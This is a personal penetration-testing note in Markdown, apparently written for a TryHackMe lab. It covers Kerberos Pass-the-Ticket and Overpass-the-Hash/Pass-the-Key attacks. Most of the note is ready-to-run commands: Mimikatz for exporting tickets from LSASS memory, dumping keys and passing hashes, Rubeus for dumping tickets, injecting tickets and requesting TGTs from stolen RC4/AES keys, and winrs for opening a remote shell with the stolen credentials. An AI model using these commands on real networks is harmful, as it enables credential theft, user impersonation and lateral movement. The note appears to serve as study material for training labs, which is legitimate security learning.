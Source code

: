 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #rubeus #winrs; 
# Pass The Ticket
- Pass the ticket involves stealing the ticket and the session key and using it impersonate the user to get access to resources or services.
- TGT & ST can be used, but TGTs are preferred because we get access to any service.
### Mimikatz
```powershell
# Tickets can be extracted from lsass memory using the following command
sekurlsa::tickets /export
# On linux, it the keys are located in files. Location of these files can be found in the kerberos configuration files: `/etc/krb5.conf`.

# Inject ticket to current session:
kerberos::ptt <ticket_id>
# This purges the current tickets from memory and injects the specified tickets
```
### Rubeus
```bash
.\Rubeus.exe dump # Dumps the tickets 
# Dumps all ticket when run with elevated privilege
.\Rubeus.exe /nowrap # dumps ticket with no new lines
.\Rubeus.exe /service:krbtgt # specify service

# Using the ticket
.\Rubeus.exe ptt /ticket:<base64ticket> 
```
- Verify the ticket with `klist`:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```
# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
### Mimikatz
- Mimikatz will open a PowerShell session with a logon type 9 (whis is the same as running `runas` with `netonly` option).
- Requires elevation.
```powershell
# for dumping keys from lsass
sekurlsa::ekeys

# For RC4 Hash
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<key> /run:"<command>"

# For AES128
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<key> /run:"<command>"

# For AES256
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<key> /run:"<command>"
```
### Rubeus
```powershell
# pass the key: rc4
# Doesn't require elevation
.\Rubeus.exe asktgt /user:administrator /rc4:<hash/key> /ptt

# This requires elevation
.\Rubeus.exe asktgt /user:administrator /aes256:<key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH). Using RC4 will be marked as "Encryption Donwgrade" and MDI will flag an alert.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
